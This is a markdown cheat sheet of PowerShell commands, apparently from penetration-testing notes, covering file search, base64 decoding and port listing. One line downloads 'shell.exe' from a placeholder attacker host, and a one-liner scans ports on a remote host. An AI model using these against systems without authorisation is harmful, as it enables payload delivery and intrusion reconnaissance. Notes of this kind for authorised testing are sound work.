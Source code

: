 # Powershell

Discoverability of scripting languages like Powershell or shell is poor by design.
These notes are for the weary shell-user who finds themselves stuck in a powershell (possibly on a remote machine).
Powershell cmdlets follow the naming pattern of `Verb-Noun`.

## Useful meta commands

Cmdlet for listing other available cmdlets:
```
Get-Command
```

It can take inputs with wildcards.

Once you find the cmdlet you want to use, you can investigate it with:

```
Get-Help ${cmdlet}
```

Now a man-page like output should help discovering how to use it.


## Downloading a file from a URI

```
Invoke-WebRequest -Uri "http://${ATTACK_IP}:${PORT}/shell.exe" -OutFile "shell.exe"
```

## Useful commands cmdlets for searching and enumerating

searching, similar to `find`:
```
Get-ChildItem -Recurse -Filter "filename*"
```

You can `cat` with:

`Get-Content -Path $file`


Base64 decode:

```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($exampleVar))
```

Open ports:

```
Get-NetTCPConnection
```

Search for only listening ports:
```
Get-NetTCPConnection | Where-Object -Property State -EQ Listen
```

Search for file containing a specific text:

```
Get-ChildItem -Recurse -Path "C:\" | Select-String "${someVar}" -List | Select Path
```

We can use the following trick to exclude paths we don't care about:
```
Get-ChildItem -Recurse -Path "C:\" | Select-String "${someVar}" -List | Select Path | Where-Object { $_ -notmatch ".Net" -and $_ -notmatch "Windows" }
```


If you have a search you know will output the file you want, you can pipe it into `Select-Object`:

```
Get-ChildItem -Path "C:\" -Recurse -Filter "*filter*" | Select-Object -First 1 | Get-Content
```

This will cat the contents of the first file the `Get-ChildItem` cmdlet outputs.

## Open powershell terminal with other credentials:

```
start powershell -credential ""
```

Note you need to kill the parent shell for this to work.
There are probably smarter ways.

## Enumerating open ports with Powershell

(Also referenced in [enumeration.md](./../enumeration.md)
```
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("$RHOST", $_)) " $_/tcp open"} 2>$null
```
